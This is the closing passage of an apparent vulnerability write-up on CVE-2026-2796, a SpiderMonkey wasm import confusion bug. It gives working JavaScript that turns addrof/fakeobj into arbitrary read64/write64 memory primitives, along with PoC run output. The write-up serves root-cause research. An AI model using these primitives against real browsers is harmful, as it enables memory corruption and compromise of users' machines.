  writeU64(scratch, FAKE_OFF + 48, BigInt.asUintN(64, targetAddr));
  return fakeobj(fakeAddr);
}
```

`read64` creates a fake typed array over the target address and reads eight bytes. `write64` does the same and writes eight bytes:

```javascript
function read64(addr) {
  let ta = buildFakeTA(addr, 8);
  let v = 0n;
  for (let i = 0; i < 8; i++) {
    v |= BigInt(ta[i]) << BigInt(i * 8);
  }
  return v;
}

function write64(addr, val) {
  let ta = buildFakeTA(addr, 8);
  val = BigInt.asUintN(64, val);
  for (let i = 0; i < 8; i++) {
    ta[i] = Number((val >> BigInt(i * 8)) & 0xffn);
  }
}
```

Running the PoC:

```bash
obj-sm-opt/dist/bin/js pocs/cve-2026-2796-poc.js
```

Output:

```text
CVE-2026-2796: SpiderMonkey call-bind wasm import confusion

[*] building addrof/fakeobj
[+] addrof(target): 0x7053eb67038
[+] fakeobj(addrof(target)) === target

[*] building read64/write64
[+] leaked Uint8Array Shape*: 0x7053eb79d40

[done] addrof/fakeobj/read64/write64
```

Output on the fixed build throws:

```text
CVE-2026-2796: SpiderMonkey call-bind wasm import confusion

[!] addrof failed: TypeError: can't convert undefined to BigInt
```

## Final Thoughts

That's it. If you made it this far, thank you for tagging along.

CVE-2026-2796 gives us a powerful primitive. Object references can come back as integers, integers can come back as objects, and the PoC turns that into addrof, fakeobj, and read/write.

Bugs and exploits are not the same thing, and not all bugs are created equal. That is the angle I want to use for the rest of the What The Claude series. Some bugs we look at may lead to primitives this strong. Others will be less severe, but still useful for understanding where browser engines are (or can be) fragile.

This is not meant to take any credit away from Anthropic or Claude. Finding bugs in modern browser engines is hard, especially bugs with impact like CVE-2026-2796. The goal is to root-cause each bug, prove what it gives us, and be honest about the impact.
